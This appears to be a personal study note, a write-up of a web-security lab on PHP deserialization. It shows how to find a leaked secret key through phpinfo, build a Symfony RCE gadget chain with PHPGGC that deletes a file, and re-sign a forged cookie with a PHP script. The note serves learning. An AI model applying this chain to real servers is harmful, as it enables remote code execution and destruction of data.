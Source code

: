 ##### Exploiting PHP deserialization with a pre-built gadget chain
- Log in and send a request containing your session cookie to Burp Repeater. 
  Highlight the cookie and look at the **Inspector** panel.
- Notice that the cookie contains a Base64-encoded token, signed with a SHA-1 HMAC hash.
- Copy the decoded cookie from the **Inspector** and paste it into Decoder.
- In Decoder, highlight the token and then select **Decode as > Base64**. 
  Notice that the token is actually a serialized PHP object.![[Pasted image 20240913154231.png]]
- In Burp Repeater, observe that if you try sending a request with a modified cookie, an exception is raised because the digital signature no longer matches. 
  However, you should notice that:
    - A developer comment discloses the location of a debug file at `/cgi-bin/phpinfo.php`.
    - The error message reveals that the website is using the Symfony 4.3.6 framework.
- append to your lab-id the   `/cgi-bin/phpinfo.php` 
- you'll find the `SECRET_KEY` environment variable. ![[Pasted image 20240913154514.png]]
  Save this key -->  you'll need it to sign your exploit later.
- Download the "PHPGGC" tool and execute the following command:
  `./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64`
- This will generate a Base64-encoded serialized object that exploits an RCE gadget chain in Symfony to delete Carlos's `morale.txt` file.

- You now need to construct a valid cookie containing this malicious object and sign it correctly using the secret key you obtained earlier. 
  You can use the following PHP script to do this.
   Before running the script, you just need to make the following changes:
    - Assign the object you generated in PHPGGC to the `$object` variable.
    - Assign the secret key that you copied from the `phpinfo.php` file to the `$secretKey` variable.
    
```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
?>
```
- save it and run php `phpscript.php`
- copy the output cookie
- capture a request that contains the cookie
- substitute it with the cookie from the script
- send the packet


### Working with documented gadget chains
There may not always be:
a dedicated tool available for exploiting known gadget chains 
(in the framework used by the target app)

In this case:
it's always worth looking -->   online 
                        to see if there are any documented exploits that you can adapt manually
